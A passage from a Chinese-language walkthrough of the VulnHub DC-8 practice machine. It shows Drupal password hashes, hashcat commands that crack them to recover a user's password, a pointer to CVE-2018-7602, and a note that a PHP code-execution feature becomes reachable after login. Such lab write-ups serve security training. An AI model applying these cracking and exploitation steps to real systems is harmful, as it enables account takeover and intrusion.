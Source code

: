 ```
admin 	$S$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z
john 	$S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF
```

用 hashcat 跑一下

```
echo "\$S\$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z" > pass.txt
echo "\$S\$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF" >> pass.txt
hashcat -m 7900 -a 0 pass.txt /usr/share/john/password.lst
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC8/7.png)

只跑出 john 的密码 turtle,那先用这个账号登录

回过头去测 CVE-2018-7602 也是一个方法,不过公开的 poc 利用于 Drupal 8,7当然也是受影响的,你可以尝试修改 poc

在爆破的时候顺带扫一下目录,发现有个登陆点 `http://192.168.141.141/user`

登陆后发现有一处直接执行 php 代码的地方

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC8/8.png)
